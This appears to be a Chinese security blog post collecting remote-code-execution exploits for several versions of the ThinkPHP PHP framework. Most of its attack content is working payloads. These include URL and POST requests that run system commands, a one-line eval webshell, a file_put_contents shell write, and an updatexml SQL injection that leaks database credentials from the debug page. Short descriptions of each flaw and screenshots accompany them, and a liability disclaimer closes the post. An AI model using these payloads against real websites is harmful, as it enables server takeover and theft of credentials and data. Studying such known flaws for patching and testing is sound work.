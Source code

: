 #  【攻防实战】ThinkPHP-RCE集锦   
原创 儒道易行  儒道易行   2025-05-30 12:00  
  
**善恶终有报，天道好轮回；不信抬头看，苍天饶过谁**  
# ThinkPHP 2.x RCE漏洞  
## 0、漏洞描述  
  
ThinkPHP 2.x版本中，使用preg_replace的/e模式匹配路由：  
```
$res = preg_replace('@(\w+)'.$depr.'([^'.$depr.'\/]+)@e', '$var[\'\\1\']="\\2";', implode($depr,$paths));
```  
  
导致用户的输入参数被插入双引号中执行，造成任意代码执行漏洞。  
  
ThinkPHP 3.0版本因为Lite模式下没有修复该漏洞，也存在这个漏洞。  
## 1、查询phpinfo()  
```
/index.php?s=/index/index/xxx/${phpinfo()}
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpxLHzNd5jrnkMt72vibWYX3uVhKnxv1LBdVdg5uicp8iaH4JY2471c6GjBibttoSB3jquZI9vTeM2ar0g/640?wx_fmt=png&from=appmsg "")  
## 2、任意代码执行  
```
index.php?s=/index/index/xxx/${system(whoami)}
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpxLHzNd5jrnkMt72vibWYX3u0vv0iaoibtmSqsLrGzYE2O2kto42OCKNwSu5Xic1sNejsKvu5vnZxZwyg/640?wx_fmt=png&from=appmsg "")  
## 3、Getshell  
```
/index.php/module/action/param1/$%7B@print(eval($_POST['1']))%7D
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpxLHzNd5jrnkMt72vibWYX3u89tzaictRTF6BtvpjGfp90XjZ4qvswqAYNKM7qGeb8MudP3wAhibkxsg/640?wx_fmt=png&from=appmsg "")  
  
蚁剑连接：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpxLHzNd5jrnkMt72vibWYX3uibbrqOOUibKdYEuax1NsJ9q8D4dmhicT9oBwWUeOjAnzCTtka6jjlGI5Q/640?wx_fmt=png&from=appmsg "")  
# ThinkPHP5 5.0.23 RCE漏洞  
## 0、漏洞描述  
  
ThinkPHP是一款运用极广的PHP开发框架。其5.0.23以前的版本中，获取method的方法中没有正确处理方法名，导致攻击者可以调用Request类任意方法并构造利用链，从而导致远程代码执行漏洞。  
## 1、成功执行id命令  
  
发送数据包：  
```
POST /index.php?s=captcha HTTP/1.1
```  
```
_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpxLHzNd5jrnkMt72vibWYX3uVSWJbDFEgmIQZNQYSq7T5PC96K4NdMibCZ5z2GibEzamZGoTkjFsiacTQ/640?wx_fmt=png&from=appmsg "")  
## 2、工具验证  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpxLHzNd5jrnkMt72vibWYX3uPDMTqiajbpCa0Q2I03IgcSSLkpicIiazfNHmjjNibCwcibicCxrFRlxFqrlw/640?wx_fmt=png&from=appmsg "")  
# ThinkPHP5 SQL注入漏洞 && 敏感信息泄露  
## 0、漏洞原理  
  
漏洞原理说明：  
  
传入的某参数在绑定编译指令的时候又没有安全处理，预编译的时候导致SQL异常报错。然而thinkphp5默认开启debug模式，在漏洞环境下构造错误的SQL语法会泄漏数据库账户和密码。  
## 1、SQL注入  
  
信息成功被爆出：  
```
/index.php?ids[0,updatexml(0,concat(0xa,user0),0)]=1
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpxLHzNd5jrnkMt72vibWYX3usdOAYrYUGNGHicA45cu6fIw5eBGG2GrbzeK5zHia2uCgHDKU4jsSiaWxA/640?wx_fmt=png&from=appmsg "")  
## 2、敏感信息泄露  
  
通过DEBUG页面，找到了数据库的账号、密码：  
```
/index.php?ids[0,updatexml(0,concat(0xa,user0),0)]=1
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpxLHzNd5jrnkMt72vibWYX3ufpVfFhW3jGvVUK3qTicbklUcvFoyD3Onk2T9r0P2WdzNpykSDB00Urw/640?wx_fmt=png&from=appmsg "")  
  
这属于一个敏感信息泄露漏洞。  
## 3、工具验证  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpxLHzNd5jrnkMt72vibWYX3uSgv8ORX3eZa4JpVe2GyUl1IKBP4foXbnTgA8sfWtNKLY1QwiaDareZw/640?wx_fmt=png&from=appmsg "")  
# Thinkphp 5 5.0.22&5.1.29 RCE漏洞  
## 0、漏洞概述  
  
ThinkPHP是一款运用极广的PHP开发框架。其版本5中，由于没有正确处理控制器名，导致在网站没有开启强制路由的情况下（即默认情况下）可以执行任意方法，从而导致远程命令执行漏洞。  
## 1、执行phpinfo  
```
/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpxLHzNd5jrnkMt72vibWYX3uHnd3mOW8bp4QSKoDg1TSVM2mbaFvQZFnqriaVFZCp1s19zOhvewVrKw/640?wx_fmt=png&from=appmsg "")  
## 2、尝试执行系统命令  
```
/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=pwd
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpxLHzNd5jrnkMt72vibWYX3uZXfbKLt71iayicyTRE8e3tCDbWakLqUZNicyxXa6nhsX51MoWuMmOUib6g/640?wx_fmt=png&from=appmsg "")  
## 3、写入shell文件  
```
/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=......
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpxLHzNd5jrnkMt72vibWYX3uLKCYlq3BwEWSO9Tib1ricJQuyOBhb3Shq8TQ7qgJZtYXEMYyCp6lNVjw/640?wx_fmt=png&from=appmsg "")  
  
蚁剑连接：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpxLHzNd5jrnkMt72vibWYX3u8nozALyXVOLEOU7lPBw6uruxUQ9zEzuZL4FZelg3baQKqElztXRrYw/640?wx_fmt=png&from=appmsg "")  
  
工具验证  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpxLHzNd5jrnkMt72vibWYX3uuu8QvdnuRicqekibQTkVMeOBicQtX3YNqvKSGwCib3zDDRxQFvXTomkiaCw/640?wx_fmt=png&from=appmsg "")  
# 攻防交流群  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/v94hWOZcBpxLHzNd5jrnkMt72vibWYX3uFrwOticvtLl3D5aPiapZ1mDaqksq1ypJ1wAlnkBiakJ05MfMRUtMCY32A/640?wx_fmt=jpeg&from=appmsg "")  
# 声明  
  
文笔生疏，措辞浅薄，敬请各位大佬不吝赐教，万分感谢。  
  
免责声明：由于传播或利用此文所提供的信息、技术或方法而造成的任何直接或间接的后果及损失，均由使用者本人负责， 文章作者不为此承担任何责任。  
  
转载声明：儒道易行 拥有对此文章的修改和解释权，如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经作者允许，不得任意修改或者增减此文章的内容，不得以任何方式将其用于商业目的。  
  
